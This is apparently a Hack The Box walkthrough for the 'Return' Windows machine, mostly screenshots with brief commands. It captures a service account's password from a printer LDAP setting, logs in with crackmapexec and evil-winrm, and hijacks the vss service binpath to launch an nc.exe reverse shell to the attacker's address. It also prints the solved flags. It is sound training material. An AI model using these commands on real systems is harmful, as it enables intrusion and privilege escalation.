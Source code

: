 ### 29-Jan-24-Mon

[Return](https://app.hackthebox.com/machines/Return)

*Windows · Easy*

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/db1dc948-748d-46eb-bcbb-4071dbd049a2)

http://10.129.56.33/

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/38df98cc-b1ee-443b-949a-4eca05e721bc)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a12e0d2e-02fb-4e5e-8b58-a5c716c94946)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/12f535ee-2532-4da0-b54c-5488c69dc467)

| Server Address | printer.return.local |
| --- | ---|
| Server Port | 389 |
| Username | svc-printer |
| Password | ******* |

```
Passw0rd!
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/0c8fe4e1-0f2f-42f3-adbb-39e4d1fdffd8)

```
echo '10.129.56.33 printer.return.local' | tee -a /etc/hosts
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2f7d3fb6-6137-48ca-891d-8b94d8fc0ff1)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/628decd2-64d8-487f-9304-c298a4fecb9e)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2a1be086-1321-4b28-b450-b1767aeba9f4)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ebd8af79-d346-491c-829e-250f7c5b38d7)

```
1edFg43012!!
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/7229364c-8a72-4ac6-be97-8349c5ae30e8)

```
crackmapexec smb 10.129.56.33 -u svc-printer -p '1edFg43012!!'
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/425309e0-7c00-4aa6-8832-78d936729879)

```
evil-winrm -i 10.129.56.33 -u svc-printer -p '1edFg43012!!'
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/2be96468-b20b-40b2-b1d5-ba09b545c227)

```
0e065aab885ce6496268c48203c6f884
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d6ab6746-2c9d-4a8b-907f-a4fb166fcf80)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b1820b68-fd30-432b-8fc4-14cdd62b061f)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/31a43705-f2a4-4b48-bdf9-662d176ebf37)

```
net user svc-printer
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/ad779d2f-8c3d-4737-960b-2739972f4617)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1f650c70-8d8b-4198-af61-c6d1d424e85f)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/683a5ac9-1ba3-4a0d-be22-0dfaf1bd365b)

```
services
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/d8c2cc4d-0f51-42a7-a89a-57690274f438)

```
get-service vss
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/a3c5f638-991c-4f93-a049-75491c24a158)

```
sc.exe config vss binpath="C:\Users\svc-printer\Desktop\nc.exe -e cmd.exe 10.10.16.8 443"
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/fb5d69fb-1bb1-4a91-b29c-5767c5d02404)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/932a9435-8eec-4665-af9b-0fceefb0d8c0)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/1f4cfa40-8351-409a-9a11-4a42903fae3e)

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/b7f78aae-2f3b-4693-a673-a9d620dc619f)

```
8f5bec8aa949128ac0c6c209d2cdd9b6
```

![image](https://github.com/r1skkam/HackTheBox-Walkthroughs/assets/58542375/01830da7-c230-4428-bf7f-9ac04031a48e)

Walkthrough by https://youtu.be/QPeWiL2N8xc
